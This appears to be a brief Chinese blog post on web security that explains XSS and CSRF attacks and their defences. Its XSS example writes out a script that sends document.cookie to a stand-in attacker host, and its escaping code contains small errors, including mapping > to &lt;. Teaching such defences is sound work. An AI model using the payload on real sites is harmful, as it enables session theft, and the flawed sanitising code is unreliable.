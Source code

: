 ```yaml
---
title: 安全相关
date: 2018-06-10 22:42:09
tags: [安全]
categories: ["其他"]
cover_img: https://ws1.sinaimg.cn/large/006tNbRwly1fxzf8nri3jj316g0u0x6p.jpg
---
```


# 安全

## XSS 攻击

举例

```javascript
div.innerHTML = (
  <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
);
// 恶意代码就被执行了，这就是 XSS
```

<!--more-->

预防
不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
如果你一样要用 innerHTML，字符过滤
把 < 替换成 `&lt`;
把 > 替换成 `&gt`;
把 & 替换成 `&amp`;
把 ' 替换成 `&#39`;
把 ' 替换成 `&quot`;
代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...
使用 CSP Content Security Policy

## CSRF 攻击

利用用户的登录态发起恶意请求
过程
用户在 qq.com 登录
用户切换到 hacker.com（恶意网站）
hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
用户在不知不觉中添加 hacker 为好友。
用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
避免
检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
使用 csrf_token 来解决
